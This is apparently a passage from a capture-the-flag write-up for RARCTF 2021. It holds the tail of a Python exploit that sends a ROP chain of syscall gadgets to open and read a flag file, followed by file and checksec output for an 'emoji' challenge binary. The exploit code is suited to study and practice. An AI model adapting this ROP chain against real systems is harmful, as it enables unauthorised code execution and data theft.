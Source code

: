 ```python
        # pop_rax_ret, 78,
        # pop_rdi_ret, 3,
        # pop_rsi_ret, flag - 0x200,
        # pop_rdx_rbx_ret, 0x200, 0,
        # syscall_ret,

        # p2 -> get flag
        pop_rax_ret, 0,
        pop_rdi_ret, 3,
        pop_rsi_ret, flag - 0x30,
        pop_rdx_rbx_ret, 0x40, 0,
        syscall_ret,

        pop_rax_ret, 1,
        pop_rdi_ret, 1,
        syscall_ret,
    )
    # 00200000
    # p1 -> leak file name = 016b228a42da0c8b248c9e2f801f2c6f.txt (the first chr of file disappear)
    # r.send(b"/".ljust(0x10, b'\x00') + b"/pwn".ljust(0x10, b'\x00') + rop2)
    # p2 -> get flag
    # input()
    # fn = f"//pwn/{w}16b228a42da0c8b248c9e2f801f2c6f.txt"
    fn = f"//pwn/716b228a42da0c8b248c9e2f801f2c6f.txt"
    r.send(b"/".ljust(0x10, b'\x00') + fn.encode().ljust(0x30, b'\x00') + rop2)
    
    flag = r.recv()

    if b'{' in flag:
        print(flag)
        break

    print(f"NICE TRY: {w}")
    r.close()
```



### emoji

```
// file
./emoji: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=eb5777df22780a644786b80de6091e869f0c4d14, for GNU/Linux 4.4.0, with debug_info, not stripped

// checksec
[*] '/home/u1f383/rarctf_2021/emoji/Emoji/emoji'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

